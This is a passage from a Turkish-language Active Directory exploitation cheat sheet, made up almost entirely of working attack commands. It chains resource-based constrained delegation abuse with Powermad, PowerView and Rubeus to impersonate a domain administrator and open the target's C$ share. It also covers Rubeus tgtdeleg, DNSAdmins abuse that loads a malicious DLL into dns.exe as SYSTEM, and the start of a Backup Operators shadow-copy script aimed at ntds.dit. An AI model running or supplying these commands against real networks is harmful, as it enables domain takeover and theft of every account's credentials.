 # Active Directory Exploitation Cheat Sheet - Bölüm 7

## Exploitation Örneği: 

### Powermad Kullanarak Yeni Bir Makine Hesabı Oluşturma:
```powershell
. .\Powermad.ps1
New-MachineAccount -MachineAccount <MachineAccountName> -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose
```

### PowerView ile Makine Hesabının SID'ini Alma:
```powershell
. .\PowerView.ps1
$ComputerSid = Get-DomainComputer <MachineAccountName> -Properties objectsid | Select -Expand objectsid
```

### ACE Oluşturma:
```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

### msDS-AllowedToActOnBehalfOfOtherIdentity Alanını Ayarlama:
```powershell
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

### Rubeus ile RC4 Hash Hesaplama:
```bash
Rubeus.exe hash /password:'p@ssword!'
```

### CIFS Servisinde Domain Admin İmpersonation:
```bash
Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:Administrator /msdsspn:cifs/TargetMachine.wtver.domain /domain:wtver.domain /ptt
```

### Hedef Makinenin C$ Sürücüsüne Erişim:
```bash
dir \\TargetMachine.wtver.domain\C$
```

## Constrain ve Resource-Based Constrained Delegation

### Kekeo veya Rubeus Kullanarak Delegation Hakkını Kandırma:
- **Rubeus Kullanımı:**
  ```bash
  Rubeus.exe tgtdeleg /nowrap
  ```

## DNSAdmins Abuse

### Açıklama:
DNSAdmins grubunun bir üyesi, dns.exe'nin SYSTEM yetkileriyle keyfi bir DLL yüklemesine izin verebilir. DC bir DNS sunucusu olarak çalışıyorsa, bu yöntemle DA yetkisi yükseltilebilir.

#### DNSAdmins Grubu Üyelerini Listeleme:
- **PowerView Kullanımı:**
  ```powershell
  Get-NetGroupMember -GroupName "DNSAdmins"
  ```

- **AD Modülü Kullanımı:**
  ```powershell
  Get-ADGroupMember -Identity DNSAdmins
  ```

#### Malicious DLL ile Yetki Yükseltme:
- **dnscmd Kullanımı:**
  ```bash
dnscmd <NameOfDNSMachine> /config /serverlevelplugindll \\Path\To\Our\Dll\malicious.dll
  ```

- **DNS Servisini Yeniden Başlatma:**
  ```bash
  sc \\DNSServer stop dns
  sc \\DNSServer start dns
  ```

## Backup Operators Grubunun Suistimali

### Açıklama:
Backup Operators grubuna üye bir kullanıcı hesabını ele geçirirsek, SeBackupPrivilege yetkisini suistimal ederek DC'nin mevcut durumunun shadow copy'sini oluşturabilir, ntds.dit dosyasını çıkarabilir ve DA yetkilerini elde edebiliriz.

#### Shadow Copy Oluşturma:
1. **Shadow Copy Script'i Oluşturma:**
```plaintext
set context persistent nowriters
set metadata c:\windows\system32\spool\drivers\color\example.cab
set verbose on
begin backup
add volume c: alias mydrive
create
expose %mydrive% w:
end backup
```
